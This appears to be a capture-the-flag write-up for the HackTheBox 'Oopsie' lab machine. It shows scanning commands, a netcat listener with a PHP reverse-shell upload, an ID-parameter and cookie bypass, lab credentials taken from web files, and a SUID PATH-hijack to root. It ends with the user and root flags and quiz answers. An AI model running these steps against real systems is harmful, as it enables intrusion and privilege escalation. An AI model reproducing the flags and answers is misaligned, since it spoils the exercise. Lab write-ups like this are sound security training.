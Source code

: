 # Oopsie - Very Easy

```shell
nmap -T4 -p- -A 10.129.83.223

ffuf -u https://10.129.83.223/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -s

#setup listener before uploading reverse shell
nc -lvp 1234

python3 -c 'import pty;pty.spawn("/bin/bash")'
#upgrade shell

cat /home/robert/user.txt
#user flag

cd /var/www/html/cdn-cgi/login

ls -la
#we have PHP and JS files for website
#go through file contents

su robert
#switch user

whoami

id
#this shows group bugtracker

find / -group bugtracker 2>/dev/null

ls -la /usr/bin/bugtracker

file /usr/bin/bugtracker

/usr/bin/bugtracker
#use different inputs for this binary

#exploit suid and cat
cd /tmp

echo "/bin/sh" > cat

chmod +x cat

export PATH=/tmp:$PATH

echo $PATH
#shows /tmp as path for executables

#run bugtracker binary and enter invalid input
#to get root shell

#cat would not work, so we can use less to view flag
less /root/root.txt
```

```markdown
The nmap scan shows that the website uses Apache httpd 2.4.29.

The ffuf scan does not give any result

Using Developer Tools, we can traverse the different web directories

We get a login page on /cdn-cgi/login/

We can login as Guest and view the pages

It is observed that for guest, access ID is 2223 and email is 'guest@megacorp.com'

The URL is http://10.129.83.223/cdn-cgi/login/admin.php?content=accounts&id=2

On changing the ID parameter from 2 to 1 in the URL, we get access ID of admin, 34322

For the admin, the client ID is 1, name is 'Tafcz' and email is 'john@tafcz.co.uk'

On changing the cookie values in Developer Tools from 'guest' to 'admin' and '2223' to '34322', we get access to the uploads page.

The files are uploaded on the /uploads directory.

Now, we can upload a reverse shell in the uploads page, and it can be accessed by navigating to /uploads/reverse-shell.php

Ensure to setup listener on attacker machine before navigating to reverse shell file.

We get reverse shell as www-data user.

We can view the user robert's files.

User flag - f2c74ee8db7983851ab2a96a44eb7981

As we are told to review the web pages code now, we can check them in the directory /var/www/html/cdn-cgi/login

We can go through the content of the files in this directory.

In admin.php, we get the creds admin:MEGACORP_4dm1n!!

In db.php, we get the creds robert:M3g4C0rpUs3r

We can use these creds to switch to user Robert

The id command shows that we are a part of bugtracker group.

We use the find command to check if there is any binary with this group.

We can see that the bugtracker binary is always run by root permissions.

Furthermore, this binary has the SUID bit set.

On running it, we can see that it asks for an input, and generates a report.

We can see that for certain number inputs, it generates an error saying 'no such file or directory'; we can exploit this.

We need to add '/bin/sh' to a file named 'cat', and add that to the environment variable PATH.

Essentially, we are tricking the bugtracker binary by exploiting 'cat'
```

1. With what kind of tool can one intercept web traffic? - Proxy

2. What is the path of the directory on the webserver that returns a login page? - /cdn-cgi/login

3. What can be modified in Firefox to get access to the upload page? - Cookie

4. What is the access ID of the admin user? - 34322

5. On uploading a file, what directory does that file appear in on the server? - /uploads

6. What is the file that contains the password that is shared with the robert user? - db.php

7. What executable is run with the option "-group bugtracker" to identify all files owned by the bugtracker group? - find

8. Regardless of which user starts running the background executable, what user privileges will be used to run? - root

9. What does SUID stand for? - Set Owner User ID

10. What is the name of the executable being called in an insecure manner? - cat

11. Submit user flag? - f2c74ee8db7983851ab2a96a44eb7981

12. Submit root flag? - af13b0bee69f8a877c3faf667f7beacf
